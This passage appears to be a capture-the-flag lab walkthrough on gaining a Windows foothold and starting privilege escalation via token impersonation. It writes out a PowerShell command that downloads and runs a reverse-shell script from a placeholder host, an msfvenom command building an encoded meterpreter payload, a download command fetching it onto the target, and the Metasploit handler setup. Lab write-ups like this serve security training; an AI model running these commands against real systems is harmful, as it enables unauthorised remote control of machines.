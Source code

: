 ```powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port ```
Before running this program, ensure the handler is set up in Metasploit:

`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run`  

﻿This step uses the Metasploit handler to receive the incoming connection from your reverse shell. Once this is running, enter this command to start the reverse shell

`Start-Process "shell-name.exe"`

This should spawn a meterpreter shell for you!


So I typed `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[local ip] LPORT=[local new port] -f exe -o [shell name].exe`

Next on the compromised machine I typed
`powershell "(New-Object System.Net.WebClient).Downloadfile('http://[local ip]:[local port for webserver]/[shell name].exe','[shell name].exe')"`

The machine gets the shell.exe from the local server.
Next I open Metasploit and type
`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST [local ip] set LPORT [local new port] run`

And then on the machine I typed `Start-Process "[shell name].exe"`
And got a connection on the Metasploit.
## Privilege Escalation

Now that we have initial access, let's use token impersonation to gain system access.

Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).

This access token consists of:

- User SIDs(security identifier)
- Group SIDs
- Privileges

Amongst other things. More detailed information can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens).

There are two types of access tokens:

- Primary access tokens: those associated with a user account that are generated on log on
- Impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:

- SecurityAnonymous: current user/client cannot impersonate another user/client
- SecurityIdentification: current user/client can get the identity and privileges of a client but cannot impersonate the client
- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
- SecurityDelegation: current user/client can impersonate the client's security context on a remote system

Where the security context is a data structure that contains users' relevant security information.

```